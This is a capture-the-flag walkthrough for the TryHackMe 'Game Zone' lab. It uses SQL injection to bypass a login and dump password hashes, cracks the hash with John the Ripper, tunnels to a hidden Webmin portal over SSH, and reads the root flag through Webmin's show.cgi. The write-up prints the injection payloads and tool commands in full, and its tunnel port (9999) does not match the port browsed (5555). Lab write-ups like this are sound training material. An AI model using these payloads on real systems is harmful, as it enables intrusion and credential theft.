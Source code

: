 ```yaml
---
layout: post
title: You're up and running!
---
```




This room covers SQLi, hash cracking, SSH tunnels and Metasploit. I had to find a few of my own tools along the way. It’s also worth the time to read any and all documentation you can find. 
I used Burp Suite, nano, John the Ripper, sshpass, and a couple of manual techniques to complete the room. There are links to different resources throughout. 



Task 1: 


Navigate to the web server in your browser of choice. The cartoon avatar is from the Hitman video game series. An internet search or reverse image search provides the character's name.







Task 2:
 + 

There are several ways to exploit this SQL injection. I used Burp Suite. I like to view the HTTP request when possible. If you’ve never used Burp Suite before, PortSwigger has a getting started page. John Hammond has a good video walk through too. I’m using FireFox configured to work with Burp through the FoxyProxy extension.

Open Burp Suite and navigate to the Proxy tab. Ensure Intercept is set to “on”. Switch to your web browser and submit test information into the website’s login:password fields. Burp Suite will catch the request, and we can edit the fields. 



Change the username field to ‘ or 1=1 –, and remove all information from the password field. Click the “Intercept is on” button to turn it off and send the altered request. We are now logged into the web server. 



Task 3:

The TryHackMe room uses SQLMap to gather information on the GameZone database. Learn more about SQLMap by visiting the developer’s website and GitHub. Start with Burp Suite. 

Turn Intercept on in Burp, then enter some test information in the Game Zone Portal search box. Click search and Burp will intercept the request. 

Copy the entire contents of the HTTP request, lines 1-15, and paste them into a text file. I used nano. Feel free to use your favorite text editor. Save the file.
. 
Follow the instructions that TryHackMe provides to enumerate the database using SQLMap and the text file we created. 

Here I got an error. I spent 15 minutes researching the error using Google, Stack Overflow, and several forums. I tried again to catch the request in Burp Suite, save the information to a new text file, and run the SQLMap scan again. I couldn’t get it working so I resorted to manual SQLi. 
Type commands directly into the search box. For SQL databases, use INFORMATION_SCHEMA to find data about the tables. PortSwigger has a good tutorial (with hands-on labs) on ways to use the UNION operator in a SQLi attack.  
The command 
' UNION select 1 from information_schema.tables # 
will show either table information or an error. Increment until we receive table information: 
' UNION select 1,2 from information_schema.tables #
' UNION select 1,2,3 from information_schema.tables #


There’s information showing numbers and titles. We’re getting somewhere. 
Try searching all all table names using: 
' UNION select 1,table_schema,table_name from information_schema.tables #

Check for the name of columns within tables using: 
' UNION select 1,table_name,column_name from information_schema.columns #
There’s a lot of information to look through. Scrolling down, we find two entries in the users table labeled ‘username’ and ‘pwd’. 

Narrow the search to information from username and pwd. 
' UNION select 1,username,pwd from users# 
There are the username and password hash for our friend Agent 47.






Task 4: 
Note: The IP addresses in the screenshots change here. I stopped and came back to finish the room the next day. 


Use John the Ripper to crack the hash and learn Agent 47’s password. 
Copy the hash and paste it into a file.


Save the file and run John The Ripper. 
john hash.txt –wordlist=’/usr/share/wordlists/rockyou.txt’ –format=Raw-SHA256

Login to the machine using SSH to get the user.txt flag. If you’re new to SSH, here’s a good starter guide. 


Task 5:

Follow the TryHackMe steps to use the ss Linux command to try to login through reverse SSH. The ss command replaced netstat, if you’re familiar with netstat. You can find a primer on using the ss command here. 

Typing “ss -tulpn” shows how many TCP sockets are running.


Here I got an error. I re-tried my steps, then looked online for a possible solution. 


I didn’t find a resolution within 10-15 minutes. Let’s try a different tool. Install sshpass by typing “apt-get install sshpass”. This was my first time installing sshpass so I also read the help options by typing “sshpass -h”.
sshpass -p <PASSWORD> ssh -L 9999:localhost:10000 -l agent47 10.10.216.83

Go to “localhost:5555” in your web browser to view the hidden web portal. 

Use the user:password combination o login and get the version number. 


Task 6:
Open Metasploit by typing “msfconsole” and then “search webmin <VERSION>”

Select the fourth option by typing “use 4”.


Set some parameters and then exploit. 
SET RHOST 10.10.216.83
SET LHOST 10.10.209.97
Set USERNAME agent47
Set PASSWORD <PASSWORD>

Something failed. I tried changing parameters. 

I restarted the box but I couldn’t get it to work. 



Let’s try something different. This is a Metasploit exploit. When reviewing it on Exploit-DB I found two URLs. The PDF from AISG states we can add “/file/show.cgi” to the URL to view files on the server. 
http://localhost:5555/file/show.cgi/root/root.txt

There’s the root flag.

